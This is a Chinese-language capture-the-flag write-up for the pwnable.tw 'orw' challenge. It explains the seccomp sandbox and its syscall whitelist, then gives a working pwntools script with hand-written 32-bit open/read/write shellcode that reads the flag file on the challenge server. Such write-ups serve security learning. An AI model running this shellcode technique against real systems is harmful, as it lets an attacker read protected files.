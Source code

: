 # ORW

检查程序保护







反汇编

![image-20240428231358325](image/image-20240428231358325.png)

orw_seccomp:

![image-20240428231416999](image/image-20240428231416999.png)



刚拿到题目的时候，并没有看明白orw_seccomp这个函数在干什么，以为只是一个简单的shellcode系统调用的题目，经过尝试，很显然的失败了，经过查阅资料发现prctl这个函数的作用

**prctl(38,1,0,0,0)表示禁用系统调用execve()函数，同时，这个选项可以通过fork()函数和clone()函数继承给子进程。**

- 第一个参数为38，第二个参数为1时，禁用execve且子进程一样

**prctl(22, 2LL, &v1)**

- 第一个参数为22
- 第二个参数为1时，只允许调用read/write/_exit(not exit_group)/sigreturn这几个syscall
- 第二个参数为2时，则为过滤模式，其中对syscall的限制通过参数3的结构体来自定义过滤规则

这种沙箱过滤模式有机会可以深入学习一下

## 工具seccomp-tools

用工具`seccomp-tools`能更直观更便捷的查看这个“白名单”。

安装seccomp-tools步骤(环境Ubuntu 20.04)：

```shell
sudo apt-get update
sudo apt-get install software-properties-common
sudo apt-add-repository ppa:brightbox/ruby-ng
sudo apt-get install ruby2.6 ruby2.6-dev
sudo gem install seccomp-tools

```

终端执行命令 查看‘’白名单‘’

```shell
[baize@pwn ~/forPwn/pwnable/orw]$ seccomp-tools dump ./orw   
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW

```



## 解题思路

既然只能用三个函数open，read，write，那么就直接读falg这个文件，其实题目本身已经给了提示

![image-20240428233320686](image/image-20240428233320686.png)

那现在就需要搞清楚这三个函数在系统调用的时候寄存器的含义即可，然后手写shellcode

### 关于系统调用

对于32位来说：

```
系统调用号：EAX

参数：EBX、ECX、EDX、ESI、EDI、EBP

返回值：EAX
```

对于64位来说：

```
系统调用号：RAX

参数：RDI、RSI、RDX、R10、R8、R9

返回值：RAX
```

对于我们的ORW（32位）来说：

| 系统调用号:eax | Name      | args1:ebx             | args2:ecx | args3:edx    |
| :------------- | :-------- | :-------------------- | :-------- | :----------- |
| 3              | sys_read  | unsigned int fd       | char *buf | size_t count |
| 4              | sys_write | unsigned int fd       | char *buf | size_t count |
| 5              | sys_open  | char __user *filename | int flags | int mode     |

## Do it！

```python
from pwn import *
import time 


#sh = process('./orw')
#gdb.attach(sh)
#sleep(15)

sh = remote('chall.pwnable.tw',10001)
sh.recvuntil('Give my your shellcode:')

# path = '/home/orw/flag'

asmopen = '''
mov eax,5
xor ecx,ecx
xor ebx,ebx

push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f

mov ebx ,esp
int 0x80
'''
#小端存路径


asmread = '''  
mov ebx,eax
mov eax,0x3 
mov ecx ,esp
mov edx,0x100
int 0x80
'''
#ebx = eax 文件指针 
#eax = 3调用号
#ecx 读取数据的缓冲区
#edx 读取大小

asmwrite = '''
mov eax,0x4
mov ebx,0x1
mov edx,0x100
int 0x80
'''


sh.sendline(asm(asmopen)+asm(asmread)+asm(asmwrite))
sh.interactive()
```



## 总结：

多观察，多思考。遇到走不通的地方一定是自己漏掉了什么，及时换思路，去查阅相关资料。

虽然这段shellcode可以让pwntools这个强大的工具代写，但作为初学者，我认为还是少用工具的好，多研究研究底层实现，自己动手多写写。